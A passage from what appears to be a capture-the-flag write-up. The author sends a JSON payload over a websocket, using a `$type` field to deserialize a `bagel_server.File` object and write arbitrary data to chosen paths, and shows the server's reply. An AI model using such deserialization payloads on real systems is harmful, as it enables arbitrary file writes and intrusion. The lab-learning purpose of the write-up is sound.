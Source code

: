 ![](./assets/2023-04-09-15-33-25-image.png)

Back in our websocket, let's try passing an object to deserialise by using `$type`:

```
> {"RemoveOrder": {"$type": "bagel_server.File, bagel", "directory": "/tmp/", "filename": "foo.txt", "WriteFile": "foobagelbaz" }}

< {
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "8:30:44",
  "RemoveOrder": {
    "$type": "bagel_server.File, bagel",
    "ReadFile": null,
    "WriteFile": "Operation successed"
  },
  "WriteOrder": null,
  "ReadOrder": null
}
```

Here, I'm naively trying to deserialize a `bagel_server.File` object, passing the string `foobagelbaz` into the `WriteFile` setter, while overwriting the `directory` and `filename` -- hoping I can write arbitrary data to arbitrary locations.
